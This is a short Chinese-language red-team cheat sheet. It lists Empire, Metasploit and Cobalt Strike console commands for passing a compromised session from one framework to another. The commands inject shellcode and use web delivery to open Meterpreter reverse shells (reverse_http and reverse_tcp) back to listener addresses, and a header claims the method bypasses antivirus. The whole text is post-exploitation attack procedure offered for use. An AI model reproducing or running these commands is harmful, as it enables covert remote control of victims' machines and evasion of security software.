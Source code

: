 ##### 派生MSF
	可绕过杀软
	Empire
	>usemodule code_execution/invoke_shellcode
	>set Lhost 192.168.0.1
	>set Lport 4444
	>set Payload reverse_http
	MSF
	>use exploit/multi/handler
	>set payloadwindows/meterpreter/reverse_http
	>set Lhost 192.168.31.247
	>set lport 4444
	>run
	或Empire
	>usemodule code_execution/invoke_metasploitpayload
	>set URL http://SRVHOST:SRVPORT
	MSF
	>use exploit/multi/script/web_delivery
	>set payload windows/x64/meterpreter/reverse_tcp
	设置SRVHOST SRVPORT
##### 派生Cobalt Strike
	创建监听器/windows/beacon_http/reverse_http 设置端口和主机
	Empire
	>usemodule code_execution/invoke_shellcode
	>set Lhost 192.168.0.1
	>set Lport 4444
	>set Payload reverse_http